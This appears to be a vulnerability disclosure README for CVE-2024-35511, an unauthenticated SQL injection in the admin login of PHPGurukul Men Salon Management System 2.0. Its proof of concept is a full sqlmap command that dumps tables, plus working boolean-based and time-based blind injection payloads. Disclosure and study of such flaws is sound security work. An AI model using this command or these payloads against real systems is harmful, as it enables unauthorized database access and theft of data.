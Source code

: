 # CVE-2024-35511-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: username
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/msms/admin/index.php" --method POST --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 --dump --tables`

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 4382=(SELECT (CASE WHEN (4382=4382) THEN 4382 ELSE (SELECT 5608 UNION SELECT 7404) END))-- zkRp&password=admin&login=Sign In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3172 FROM (SELECT(SLEEP(5)))sbzt)-- ljdG&password=admin&login=Sign In
---

```
+ current database: `msmsdb`
![image](https://github.com/efekaanakkar/CVEs/assets/130908672/7cf45037-3e64-4fff-8337-86292c34ddd2)
